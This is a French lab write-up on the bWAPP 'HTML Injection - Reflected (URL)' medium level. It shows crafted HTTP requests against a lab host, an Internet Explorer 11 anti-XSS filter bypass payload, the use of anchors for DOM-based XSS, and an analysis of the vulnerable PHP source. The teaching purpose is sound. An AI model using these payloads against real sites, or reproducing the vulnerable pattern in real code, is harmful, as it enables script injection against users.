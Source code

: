 # Niveau "Medium"

## Exploitation

L'URL est ici réfléchie au sein de la page en utilisant la méthode HTTP `GET` :&#x20;

```http
GET /bWAPP/htmli_current_url.php?parametre=valeur HTTP/1.1
Host: 192.168.56.116
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Cookie: security_level=1; PHPSESSID=2f4611482fb97564af7dbe4243dca828
Connection: close
```

![](<../../../../../.gitbook/assets/image (23) (1) (1) (1) (1).png>)

La récupération de l'URL s'effectue non plus en PHP mais grâce à du Javascript et la méthode `document.write()` de la variable `document.URI` :&#x20;

```html
<i>
  <script>document.write(document.URL)</script>
  "http://192.168.56.116/bWAPP/htmli_current_url.php?parametre=valeur"
</i>
```

Il est donc ici possible d'afficher les paramètres de type ancre :&#x20;

![](<../../../../../.gitbook/assets/image (22).png>)

Les navigateurs récents encodent l'URL, cela a pour conséquence qu'il est pas possible d'exploiter directement la vulnérabilité. Internet Explorer 11 n'effectue pas cet encodage sur les nom et valeur des paramètres d'URL, par contre il possède un filtre anti-XSS pouvant empêcher l'exécution de script malicieux :&#x20;

![](<../../../../../.gitbook/assets/image (8) (1).png>)

Il existe un contournement fonctionnel sur IE permettant tout de même d'exécuter le code :&#x20;

```http
GET /bWAPP/htmli_current_url.php?parametre=<script/%00%00v%00%00>alert('XSS')</script> HTTP/1.1
Accept: text/html, application/xhtml+xml, image/jxr, */*
Host: 192.168.56.116
Cookie: PHPSESSID=5259cd672a0fb988f6f618b8527b1a8c; security_level=0
Connection: close
```

![](<../../../../../.gitbook/assets/image (10) (1).png>)

Il est également possible d'exécuter du code HTML/Javascript sans utiliser de contournement spécifique à IE11 mais en utilisant les ancres :&#x20;

```http
GET /bWAPP/htmli_current_url.php HTTP/1.1
Accept: text/html, application/xhtml+xml, image/jxr, */*
Host: 192.168.56.116
Cookie: PHPSESSID=5259cd672a0fb988f6f618b8527b1a8c; security_level=1
Connection: close
```

![](<../../../../../.gitbook/assets/image (10).png>)

Etant donné que la valeur de l'URL est récupérée au niveau du client (par du code Javascript, c'est donc une vulnérabilité Dom-based) l'interception et la modification de l'URL ne fonctionnera pas.

A noter qu'il est possible d'injecter le champ également le champ Host mais sans succès après quelques tests (excepté via interception avec un proxy) :&#x20;

![](<../../../../../.gitbook/assets/image (23) (1) (1) (1).png>)

## Analyse du code source

L'application affiche le contenu de la variable `$url` au d'une balise `<i></i>` :

{% code title="htmli_current_url.php" %}
```php
<div id="man">
  <h1>HTML Injection - Reflected (URL)</h1>
  <?php echo "<p align=\"left\">Your current URL: <i>" . $url . "</i></p>";?>
</div>
```
{% endcode %}

La variable `$url` est construite de la manière suivante :&#x20;

{% code title="htmli_current_url.php" %}
```php
$url= "";

switch($_COOKIE["security_level"]) {
  case "0" :
    // $url = "http://" . $_SERVER["HTTP_HOST"] . urldecode($_SERVER["REQUEST_URI"]);
    $url = "http://" . $_SERVER["HTTP_HOST"] . $_SERVER["REQUEST_URI"];
    break;
  case "1" :
    $url = "<script>document.write(document.URL)</script>";
    break;
  case "2" :
    $url = "http://" . $_SERVER["HTTP_HOST"] . xss_check_3($_SERVER["REQUEST_URI"]);
    break;
  default :
    // $url = "http://" . $_SERVER["HTTP_HOST"] . urldecode($_SERVER["REQUEST_URI"]);
    $url = "http://" . $_SERVER["HTTP_HOST"] . $_SERVER["REQUEST_URI"];
    break;
}
```
{% endcode %}

Le level "Medium" correspond à la valeur 1, c'est à dire qu'ici, la variable `$url` est construite de la façon suivante :

```php
$url = "<script>document.write(document.URL)</script>";
```

Il s'agit donc d'une injection XSS basée sur le Dom (également nommée Type-0) car l'information est récupérée directement depuis l'URL affichée dans le navigateur de l'utilisateur (et non celle envoyée au serveur).
